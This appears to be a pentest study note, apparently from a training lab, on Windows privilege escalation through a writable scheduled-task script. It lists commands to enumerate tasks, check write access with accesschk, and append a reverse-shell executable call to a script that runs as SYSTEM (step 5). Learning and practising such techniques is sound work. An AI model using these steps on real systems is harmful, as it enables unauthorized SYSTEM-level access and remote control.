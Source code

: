 ```yaml
---
category: Uncategorized
tags: []
---
```

Unfortunately, there is no easy method for enumerating custom tasks that belong to other users as a low privileged user account.

List all scheduled tasks your user can see:

```command prompt - windows
schtasks /query /fo LIST /v
```

In PowerShell:

PS>
```command prompt - windows
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```

Often we have to rely on other clues, such as finding a script or log file that indicates a scheduled task is being run.

1. In the C:\DevTools directory, there is a PowerShell script called “CleanUp.ps1”. View the script:

```command prompt - windows
type C:\DevTools\CleanUp.ps1
```

2. This script seems like it is running every minute as the SYSTEM user. We can check our privileges on this script using accesschk.exe:

```command prompt - windows
C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
```

It appears we have the ability to write to this file.

3. Backup the script:

```command prompt - windows
copy C:\DevTools\CleanUp.ps1 C:\Temp\
```

4. Start a listener on Kali.

[[rlwrap]]

5. Use echo to append a call to our reverse shell executable to the end of the script:

[[1._Reverse Shells (WIN)#MSFVenom]]

```command prompt - windows
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
```

6. Wait for the scheduled task to run (it should run every minute) to complete the exploit.